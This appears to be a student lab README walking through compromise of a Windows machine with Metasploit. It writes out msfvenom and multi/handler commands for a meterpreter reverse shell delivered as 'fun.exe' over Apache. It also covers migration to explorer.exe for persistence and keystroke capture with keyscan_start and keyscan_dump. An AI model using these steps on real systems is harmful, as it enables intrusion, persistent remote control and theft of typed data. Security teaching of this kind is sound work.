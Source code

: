 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![ifconfig](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/890da223-ee83-4a04-9bee-fd5f53ea62a4)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![msfvenom](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/9d5453ef-2bbd-4132-9b4e-cf29d5610169)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![msf2](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/8f32313d-01d3-418f-8013-4f551014f952)

Start apache server
sudo systemctl apache2 start
## OUTPUT:
![apache1](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/3ca06607-ac29-4e5c-90e1-5366fb36ff78)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/4988ea38-fd70-42c7-b6f4-58a5ab2c6733)

Invoke msfconsole:
## OUTPUT:
![msfconsloe](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/44d147b1-ec08-4f88-9a90-c07447b7c9b9)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![help](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/64cf9c76-1920-45e1-ac82-864900fa2805)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![ccs](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/9bcf690b-1acd-42ed-bef4-bdd63cf79bf9)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/03f20cd0-6941-4198-8b64-51b4d0aa0acb)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/f45f4b1c-c833-40a0-96a8-0ee7dbab4be5)

On kali give the command exploit

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/76f43c4b-aaac-41a9-96d3-6682a3433c1b)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/518c3556-f762-4bd8-8ac5-816ca6a3639e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/c832941b-d016-4dd7-9a8c-4c4d7b9913c3)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/c5024173-f975-4900-8389-bbcb207baf2f)
![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/157a8792-65bf-4528-965e-c3cd0005e9f9)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/82a9c840-cf1c-42f0-b009-5465612381af)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
